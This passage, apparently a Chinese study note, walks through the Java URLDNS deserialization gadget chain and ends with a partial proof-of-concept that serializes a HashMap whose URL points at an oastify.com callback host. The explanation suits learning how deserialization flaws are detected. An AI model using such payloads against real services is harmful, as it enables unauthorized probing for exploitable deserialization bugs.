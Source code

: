 ### HashMap

调用链从`HashMap.readObject()` 开始，看一下

![image.png](image%204.png)

主要在截屏的这一段，因为`HashMap`中的键和值都是对象，所以要反序列化一个`map`就要恢复里面的键和值

其中这里会计算`key`的`hash`

`HashMap.hash()` 

![image.png](image%205.png)

就是`key`不为空的话就会调用反序列化对象的`hashCode()`，下面看一下`URL`的`hashCode()`

### URL.hashCode()

先看URL.hashCode()

![image.png](image%206.png)

`hashler.hashCode()`

![image.png](image%207.png)

显然是在保证`hashCode`等于`-1`时调用`hashler.hashCode()`达到目的

可以看到确实是在这里获取`ip`是发了请求

## 手动实现

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/*
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
         *
         */

public class Ser {
    public static void serializable (String path, Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(path));
        oos.writeObject(obj);
    }
    public static Object unserializable (String path) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
        return ois.readObject();
    }
    public static void main(String[] args) throws Exception {
//        URL url = new URL("https://mkap9q531y6b02jqyhedgyt9l0rrfh36.oastify.com");
//        Field hashCode = URL.class.getDeclaredField("hashCode");
//        hashCode.setAccessible(true);
//        hashCode.setInt(url,666);
//        HashMap <URL,Object> map = new HashMap<>();
//        map.put(url,null);
//        hashCode.setInt(url,-1);
//        serializable("urldns3.bin",map);
```